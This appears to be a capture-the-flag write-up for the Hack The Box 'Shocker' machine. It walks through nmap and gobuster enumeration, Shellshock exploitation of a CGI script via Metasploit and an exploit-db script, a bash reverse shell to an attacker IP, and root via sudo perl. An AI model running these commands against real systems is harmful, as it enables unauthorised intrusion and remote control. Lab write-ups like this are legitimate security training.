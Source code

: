![logo](/logo.png)

# [Shocker- BOX]  
Hi folks, today I am going to solve an Easy rated hack the box machine which was released on on 30 Sep 2017 as the tenth machine on HTB,Shocker created by[mrb3n](https://app.hackthebox.com/users/2984) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *cgi
  *shellock
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/shocker 10.10.10.56
```

###### Output 

![](/Linux/Linux-Easy/Shocker/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/shocker 10.10.10.56                                                                                         ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-28 20:02 EAT
Nmap scan report for 10.10.10.56
Host is up (0.38s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.28 seconds
```

looking at the results  we find out that there are 2 ports open and its a `Ubuntu`and its running an `Apache`. 

port[80]-  http
port[2222]-ssh

So when we go the browser at [http://10.10.10.56](http://10.10.10.56)  looking at the browser we find a page with dont bug me!

![](/Linux/Linux-Easy/Shocker/Screenshots/browser.png)

I start `gobuster` and run it  to enumerate existing directories.

```sh
gobuster dir -u http://10.10.10.56 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -x php -t 50
```



Due to the limited results, and inferring from the name of the Machine, it is fairly safe to assume at
this point that the entry method will be through a script in /cgi-bin/ using the Shellshock exploit.
Fuzzing for the extensions cgi, sh, pl, py get us the following results.

# Exploitation

With the discovered user.sh script, and due to the lack of another attack surface, it is quite clear
at this point that the exploit will be `shellshock` `Apache mod_cgi`. There is a Metasploit module
for this specific vulnerability, as well as a Proof of Concept on exploit-db.

```sh
cat user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/usersh.png)

we starte `msfconsole`

```sh
search apace cgi
```

![](/Linux/Linux-Easy/Shocker/Screenshots/msfconsole.png)

```sh
show options
set RHOSTS 10.10.10.56
set TARGETURI /cgi-bin/user.sh
set LHOST 10.10.14.15
run
```

and just like that we get a meterpreter

![](/Linux/Linux-Easy/Shocker/Screenshots/meterpreter.png)

lets start a pyhon script from [exploitDB](https://exploit-db.com/exploits/34900/) so that we can do this manually 

```sh
python3 shellock.py payload=reverse rhost=10.10.10.56 lhost=10.10.14.15 lport=1337 pages=/cgi-bin/user.sh
```

![](/Linux/Linux-Easy/Shocker/Screenshots/userflag.png)


lets start a shell 

```sh
/bin/bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

![](/Linux/Linux-Easy/Shocker/Screenshots/shell.png)

then it close but gets us a shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellpython.png)

`perl` has a `-e` option that allows me to run Perl from the command line. It also has an `exec` command that will run shell commands. Putting that together, I can run `bash` as root

![](/Linux/Linux-Easy/Shocker/Screenshots/sudol.png)

```sh
sudo perl -e 'exec "/bin/bash"'
```

you can get `root` shell

![](/Linux/Linux-Easy/Shocker/Screenshots/shellroot.png)

	-------------------------END successful attack @lesley----------------------
